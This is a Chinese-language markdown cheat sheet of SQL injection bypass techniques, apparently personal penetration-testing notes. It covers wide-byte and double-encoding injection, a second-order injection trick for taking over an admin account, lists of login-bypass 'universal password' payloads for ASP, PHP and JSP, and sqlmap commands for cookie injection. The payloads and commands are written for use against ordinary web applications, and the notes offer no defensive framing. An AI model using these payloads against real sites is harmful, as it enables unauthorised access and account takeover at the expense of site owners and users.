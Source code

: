 # 注入绕过初级
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x01 宽字节注入
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;原理: GBK编码原因
![](/assets/1D9686C1BD68278B8BCC54E99EC2B241.png)
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;方法: 注入点后添加 %df ('),注意引号位置
![](/assets/56A4F11A60114A0F775184E226B97253.png)
```
    sqlmap的应用:    sqlmap -u "URL%df"
```
![](/assets/WX20190308-163047@2x.png)
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x02 二次编码注入
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;原理: %25=%，%27='
![](/assets/819D6BE3ABC9332640A198A04C59DBE3.png)
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;方法: 在注入参数后加上 %2527
![](/assets/2FB8757F83C36EA38BE10100CF6E5AFD.png)
![](/assets/F9F1EB8B18B34194EF8874D1070C3F1A.png)
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x03 二次注入
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;原理:
![](/assets/272D362F397C7D1EECE826BBA25CFC5A.png) 
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;方法: 
```
    适合在能提取数据的地方，例如利用注册信息成 admin'#，密码随意
    在利用找回密码，修改admin的密码
```
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x04 万能密码注入
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;原理:
![](/assets/QQ20190218-182024@2x.png)
![](/assets/87E9A1A4708DED342D6152C1BC75DB04.png)
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;方法:
```sql
    asp/aspx万能密码: ”or “a”=”a 、‘)or(‘a’=’a 、’or 1=1–、‘OR 1=1%00  
    PHP万能密码:  'or'='or'、 'or 1=1/* 字符型 GPC是否开都可以使用、User: something/Pass: ' OR '1'='1
    JSP万能密码: 1'or'1'='1、admin' OR 1=1/*
    
    https://blog.csdn.net/qq_36512966/article/details/72674794
```
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x05 cookie注入
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;原理:php中，使用超全局变 $_GET，$_POST来接受参数。 asp中，使用Request.QueryString (GET)或 Request.Form (POST)来接收页面提交的参数值，程序不是先取GET中的数据，没有再取POST中的数据，还会去取Cookies中的数据，一般写防护的会忽略cookie防御
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;方法: [cookie中转工具实战](https://blog.51cto.com/yttitan/1562382)、[cookie手注](https://www.cnblogs.com/sun-sunshine123/p/6861677.html)
```html
    avascript:alert（document.ｃookie ="id="+escape("1")); 回车弹出对话框内容为1
    刷新一下网页，如果正常显示，表示该页是用Request("ID")这样的格式收集数据，这种格式就可以试Cookies注入了
    
    SQLMap:  sqlmap.py -u "http://172.16.12.2/test.php" --cookie "id=1" --level 2  --level>2才会检查cookie
    
```
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x06 post注入
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;[Burpsuite+SQLMap实战](https://blog.csdn.net/u011781521/article/details/58594941)










    



